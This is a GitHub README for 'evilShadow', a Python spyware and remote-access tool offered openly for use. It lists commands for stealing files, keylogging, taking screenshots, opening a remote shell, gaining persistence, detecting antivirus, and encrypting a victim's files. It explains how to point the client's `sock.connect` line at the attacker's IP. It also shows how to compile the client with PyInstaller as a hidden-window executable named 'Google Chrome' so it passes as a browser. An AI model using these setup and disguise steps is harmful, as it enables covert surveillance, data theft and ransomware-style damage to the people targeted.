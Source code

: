 # evilShadow

SpyWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path>   -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] downloadDir <dir> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask         -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check             -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo           -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell             -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av                -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>     -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>         -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence       -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence    -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>    -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>    -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>      -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump       -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot        -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll          -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction       -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q                 -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit              -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b



## New Enviorment:
- **¿Por que?**
    
  - Una de las razones es para no tener conflictos y no tener otras librerias al compilar.
  - Al crearnos un nuevo entono virtual, el .exe estará cargado con las librerias instaladas en ese entorno.
  - El .exe / .bin pesará de **"30MB"** a **"14MB"**
    

- Windows:
   1. `python -m venv new`
   2. `.\new\Scripts\activate`

    
 - Linux:
   1. `python3 -m venv new`
   2. `new/bin/activate`

PD: Para salir de este entorno, con el comando **"deactivate"** salimos del enterno nuevo de vuelta al del sistema


# Requirements

Automated:

- ```pip install -r requirements.txt```

Manal:

- ```pip install prompt_toolkit==3.0.14 colorama==0.4.4 psutil==5.8.0 cryptography==41.0.3 requests==2.31.0 pillow==10.0.1 pynput==1.7.6```


# Errors:

- Si tenemos errores con las librerias (module not found):
  - ```pip install prompt_toolkit==3.0.14 colorama==0.4.4 psutil==5.8.0 cryptography==41.0.3 requests==2.31.0 pillow==10.0.1 pynput==1.7.6 pyinstaller==0.5.9``` 


- Si tenemos el error **"pyinstaller not found"** en el *nuevo entorno*!

    - **Windows**
      - where pyinstaller
      
            D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe
            C:\Program Files\Python310\Scripts\pyinstaller.exe``
    
      - Usar ruta completa de pyinstaller (nuevo)
      
             D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe --noconsole ....
    


# Preparación:


En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

  ### Automatic
    - `client>pyinstaller compilation.spec`

  ### Windows:

  - Admin Required:
  
      `client>pyinstaller --onefile --noupx --noconsole --clean --uac-admin -n "Google Chrome" conection.py`

  - **NO** Admin Required:
  
      `client>pyinstaller --onefile --noupx --noconsole --clean -n "Google Chrome" conection.py`

  ### Linux:
  
  `client>pyinstaller --onefile --noupx --noconsole --clean -n "Google Chrome" conection.py`
